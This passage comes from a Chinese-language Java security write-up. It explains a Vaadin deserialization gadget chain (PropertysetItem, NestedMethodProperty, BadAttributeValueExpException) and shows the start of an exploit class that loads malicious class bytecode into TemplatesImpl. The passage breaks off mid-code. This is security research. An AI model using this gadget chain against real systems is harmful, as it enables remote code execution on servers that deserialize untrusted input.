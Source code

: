 其实可以发现他返回的就是我们`list`​的内容

那之后取出 list 的内容后再从 map 中去找对应的值去调用我们的 getvalue 方法

[![](assets/1709282823-9d219b67f0b0107bb79791e4bdf86b82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162545-223dad86-d6dc-1.png)

那么现在目的就是

1.  list 有一个需要调用他的 getter 方法的 id
2.  map 也需要一个调用他的 getter 方法的 id 并且取出来的值为`NestedMethodProperty`​类来调用他的 getvalue 方法

那其实就已经非常好去拼接了

最后的问题就是如何在反序列化的时候调用任意类的`Tostring`​方法了，而在我们的 CC5 当中就接触过这个类叫`BadAttributeValueExpException`​，他的反序列化是可以调用任意类的`ToString`​方法的，于是参考 SU18 师傅的 EXP 成功弹出计算机

```plain
package Vaadin;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Vaadin_Ser {


    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));


        TemplatesImpl templates = new TemplatesImpl();
```
